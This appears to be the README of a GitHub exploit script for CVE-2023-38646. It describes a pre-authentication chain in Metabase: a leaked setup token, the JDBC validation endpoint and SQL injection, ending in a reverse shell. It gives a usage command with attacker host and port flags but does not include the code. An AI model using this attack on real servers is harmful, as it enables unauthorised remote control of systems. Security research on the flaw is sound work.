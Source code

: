 # CVE-2023-38646

This script creates a reverse shell targeting CVE-2023-38646 (CVSS 9.8). It is developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How it works:
A token called "setup-token" is used to allow users to setup Metabase. However, for vulnerable versions of Metabase this token is not removed after setup.
This token is accessible to unauthenticated users under "/api/session/properties" - however the script is able to automatically retrieve the token.

As part of the setup process, an endpoint exists at /api/setup/validate which takes in a JDBC URI as a part of the POST request and then validates the connection before allowing you to complete the setup. However, this is also not disabled after inital setup and can be used with the set-up token.

Further, Assetnote found a 0day SQL injection vulnerability which allows commands be to executed on the remote host. Using this, a reverse shell can be spawned.

For more detailed information, please see the [full article](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How to use this script:
`python3 CVE-2023-38646.py --lhost {KALI IP} --lport {KALI LISTENING PORT} --url http://{DOMAIN_OF_LOGIN_PAGE-NOT_PATH!}`

options:
  -h, --help     show this help message and exit
  --url URL      URL of the login page
  --lhost LHOST  Your attacker machine IP
  --lport LPORT  Your attacker machine listening port

Example:
![Example Screenshot](Example%20Screenshot.png)

# Disclaimer
This script is provided for educational and awareness purposes only. It is intended to demonstrate a security vulnerability and should only be used in environments where you have explicit authorization to test for and mitigate such vulnerabilities. Unauthorised use of this script on systems without proper authorization may be illegal and could result in legal consequences. 
The author of this script are not responsible for any misuse or damage caused by the execution of this code. Use at your own risk.
By using this script, you agree that you have read and understood this disclaimer and assume full responsibility for any actions taken.

# Acknowledgements:
This script was developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).
Inspiration was also taken from [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646) by [Pyr0sec](https://github.com/Pyr0sec).
